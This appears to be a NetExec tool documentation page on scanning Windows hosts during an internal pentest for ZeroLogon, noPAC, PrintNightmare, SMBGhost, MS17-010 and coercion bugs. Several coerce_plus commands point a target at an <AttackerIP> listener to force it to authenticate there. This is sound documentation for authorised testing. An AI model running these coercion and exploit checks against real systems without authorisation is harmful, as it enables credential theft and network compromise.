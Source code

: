 ```yaml
---
description: Check if host is vulnerable
---
```


# Scan for Vulnerabilities

## Scan for Vulnerabilities

When you start your internal pentest, these are the first modules you should try:

#### ZeroLogon

```
nxc smb <ip> -u '' -p '' -M zerologon
```

#### noPAC

```
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

{% hint style="warning" %}
You need a credential for noPAC vulnerability check.
{% endhint %}

#### PrintNightmare

```
nxc smb <ip> -u '' -p '' -M printnightmare
```

#### SMBGhost

```
nxc smb <ip> -u '' -p '' -M smbghost
```

#### MS17-010 (Not tested outside LAB environment)

```
nxc smb <ip> -u '' -p '' -M ms17-010
```

Or, try them all at once! Just list each one: `-M zerologon -M printnightmare`

## Scan for Coerce Vulnerabilities

You can check for coerce vulnerabilities such as PetitPotam, DFSCoerce, PrinterBug, MSEven and ShadowCoerce using the coerce\_plus module. You can also use credentials to check for these vulnerabilities. By default the LISTENER ip will be set to localhost, so no traffic will appear on the network.

```
nxc smb <ip> -u '' -p '' -M coerce_plus
```

If a vulnerability is found, you can set a LISTENER ip to coerce the connection.

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP>
```

To run all exploit methods at once, add the ALWAYS=true option, otherwise it will stop if the underlying RPC connection reports a successful coercion.

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o LISTENER=<AttackerIP> ALWAYS=true
```

You can also check for a specific coerce method by specifying it:

```
nxc smb <ip> -u '' -p '' -M coerce_plus -o METHOD=PetitPotam
```

{% hint style="success" %}
Instead of using the `METHOD` option, you can use its short form `M`. Similarly, the argument `LISTENER` can be shortened to `L`.

This also applies to the names of the vulnerabilities when specifying a method.

M=p // Invalid, as both petitpotam and printerbug start with ‘p’ so modules gives error

M=pr // Matches printerbug

M=pe // Matches petitpotam

M=dfs // Matches dfscoerce
{% endhint %}

Check out what other modules are available via `nxc <protocol> -L`
